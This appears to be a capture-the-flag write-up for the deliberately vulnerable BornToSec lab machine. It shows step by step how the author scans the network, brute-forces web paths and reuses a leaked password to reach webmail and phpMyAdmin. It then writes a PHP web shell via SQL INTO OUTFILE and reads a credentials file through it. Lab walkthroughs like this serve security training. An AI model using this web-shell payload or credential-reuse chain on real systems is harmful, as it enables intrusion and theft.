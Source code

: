 
### Step 1.
```bash
# List all the devices in the private network (replace by network ip address)
sudo nmap --unprivileged -sn 192.168.64.0/24
```

Once revealed, let's add ip address to the env variables.
```bash
export IP=192.168.64.6
```

<hr>

### Step 2.
```bash
# List all the opened ports for specified ip address (replace by device ip address)
sudo nmap $IP
# or even better
sudo nmap -T4 -A -v $IP
```

<details>
    <summary>Info about of opened ports</summary>

```bash
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22 ((Ubuntu))
993/tcp open  ssl/imaps?
```

</details>

<details>
    <summary>More detailed info about of opened ports</summary>

```
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap       Dovecot imapd
|_imap-capabilities: SASL-IR IDLE listed have LITERAL+ capabilities ENABLE more post-login Pre-login LOGIN-REFERRALS OK LOGINDISABLEDA0001 IMAP4rev1 STARTTLS ID
|_ssl-date: 2022-10-08T19:41:46+00:00; 0s from scanner time.
443/tcp open  ssl/http   Apache httpd 2.2.22 ((Ubuntu))
| ssl-cert: Subject: commonName=BornToSec
| Issuer: commonName=BornToSec
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-10-08T00:19:46
| Not valid after:  2025-10-05T00:19:46
| MD5:   3f63 02ca 0bb1 e732 9987 6887 3623 86a3
|_SHA-1: eebc f8de 3422 dd63 5314 9d47 811f f6d1 8f77 c98d
|_ssl-date: 2022-10-08T19:41:45+00:00; 0s from scanner time.
993/tcp open  ssl/imaps?
|_ssl-date: 2022-10-08T19:41:45+00:00; 0s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

</details>

<hr>

### Step 3.

For this step we'll use dirsearch - an advanced web path brute-forcer.

See [github page](https://github.com/maurosoria/dirsearch) to know installation steps and advanced usage.


```bash
python3 dirsearch.py -e php -u https://$IP --exclude-status 400,401,404
```

<details>
    <summary>Dirsearch output from scanning https server</summary>

```bash
[10:36:23] 403 -  241B  - /cgi-bin/
[10:36:28] 301 -  249B  - /forum  ->  https://192.168.64.6/forum/
[10:36:34] 301 -  252B  - /phpmyadmin  ->  https://192.168.64.6/phpmyadmin/
[10:36:34] 200 -    2KB - /forum/
[10:36:37] 403 -  240B  - /server-status/
[10:36:37] 403 -  240B  - /server-status
[10:36:41] 200 -    2KB - /phpmyadmin/index.php
[10:36:41] 200 -    2KB - /phpmyadmin/
[10:36:42] 301 -  251B  - /webmail  ->  https://192.168.64.6/webmail/
[10:36:42] 403 -  254B  - /webmail/src/configtest.php
```

</details>


```bash
python3 dirsearch.py -e php -u http://$IP --exclude-status 400,401,404
```

<details>
    <summary>Dirsearch output from scanning http server</summary>

```
[10:30:07] 403 -  242B  - /.ht_wsr.txt
[10:30:07] 403 -  242B  - /.htaccess.sample
[10:30:07] 403 -  241B  - /.htaccess.orig
[10:30:07] 403 -  242B  - /.htaccess.bak1
[10:30:07] 403 -  240B  - /.htaccessOLD
[10:30:07] 403 -  241B  - /.htaccessOLD2
[10:30:07] 403 -  240B  - /.htaccess.save
[10:30:07] 403 -  237B  - /.htm
[10:30:07] 403 -  241B  - /.htaccessBAK
[10:30:07] 403 -  241B  - /.htaccess_sc
[10:30:07] 403 -  243B  - /.htaccess_orig
[10:30:07] 403 -  245B  - /.htpasswd_test
[10:30:07] 403 -  237B  - /.html
[10:30:07] 403 -  241B  - /.htpasswds
[10:30:07] 403 -  243B  - /.htaccess_extra
[10:30:07] 403 -  241B  - /.httr-oauth
[10:30:18] 403 -  240B  - /cgi-bin/
[10:30:21] 403 -  245B  - /doc/html/index.html
[10:30:21] 403 -  247B  - /doc/en/changes.html
[10:30:21] 403 -  243B  - /doc/stable.version
[10:30:21] 403 -  237B  - /doc/
[10:30:21] 403 -  239B  - /doc/api/
[10:30:22] 301 -  247B  - /fonts  ->  http://192.168.64.6/fonts/
[10:30:22] 403 -  239B  - /forum/
[10:30:22] 403 -  242B  - /forum/admin/
[10:30:22] 403 -  238B  - /forum
[10:30:22] 403 -  247B  - /forum/phpmyadmin/
[10:30:23] 403 -  248B  - /forum/install/install.php
[10:30:32] 403 -  240B  - /server-status/
[10:30:32] 403 -  239B  - /server-status
```

</details>

<hr>

### Step 4.
Go to the `https://$IP/forum/` <br>
Look into log file named `Probleme login ?`: 
```
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=161.202.39.38-static.reverse.softlayer.com
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

From this output we can understand, that `lmezard` tried to connect to the server <br>
and accidentally (or not) typed password in the login field. Such a mistake!

Use this pair to login as a user on the forum, and get the mail from account page. <br>
Mail: `laurie@borntosec.net`

<hr>

### Step 5.
We use this credentials to login to another revealed service (webmail)

Go to the `https://$IP/webmail/` <br>
Login: `laurie@borntosec.net` <br>
Password: `!q\]Ej?*5K5cy*AJ` <br>

Check out the mail with `DB Access` subject and get another credentials.

<hr>

### Step 6.

Check login credentials for the DB.

Go to the `https://$IP/phpmyadmin/` <br>
Login: `root` <br>
Password: `Fg-'kKXBj87E:aJ$` <br>

<hr>

### Step 7.

The next thing we'll do is trying to open a [webshell](https://en.wikipedia.org/wiki/Web_shell)

```bash
python3 dirsearch.py -e php -u https://$IP --exclude-status 400,401,404
```

<details>
<summary>Scan of /forum endpoint</summary>

```bash
[11:11:54] 301 -  254B  - /forum/images  ->  https://192.168.64.6/forum/images/
[11:11:54] 200 -  474B  - /forum/images/
[11:11:54] 301 -  255B  - /forum/includes  ->  https://192.168.64.6/forum/includes/
[11:11:54] 200 -  810B  - /forum/includes/

[11:11:55] 301 -  251B  - /forum/js  ->  https://192.168.64.6/forum/js/
[11:11:56] 200 -  519B  - /forum/js/
[11:11:56] 301 -  252B  - /forum/lang  ->  https://192.168.64.6/forum/lang/
[11:12:02] 301 -  254B  - /forum/modules  ->  https://192.168.64.6/forum/modules/
[11:12:02] 200 -  518B  - /forum/modules/

[11:12:14] 301 -  257B  - /forum/templates_c  ->  https://192.168.64.6/forum/templates_c/
[11:12:14] 200 -    1KB - /forum/templates_c/

[11:12:16] 301 -  253B  - /forum/themes  ->  https://192.168.64.6/forum/themes/
[11:12:16] 200 -  449B  - /forum/themes/
[11:12:17] 301 -  253B  - /forum/update  ->  https://192.168.64.6/forum/update/
```
</details>

From the scan we can understand that there are several accessible directories...

<hr>

### Step 8.

Go to the `https://$IP/phpmyadmin/` <br>
Login: `root` <br>
Password: `Fg-'kKXBj87E:aJ$` <br>

Create webshell file using SQL query
```SQL
SELECT '<?=`$_GET[x]`?>' INTO OUTFILE '/var/www/forum/templates_c/wsh.php'
```

### Step 9.
Using `wsh.sh` let's go through some directories...

This command reveals ftp credentials for lmezard.
```bash
$ cat /home/LOOKATME/password

lmezard:G!@M6f4Eatau{sF"
```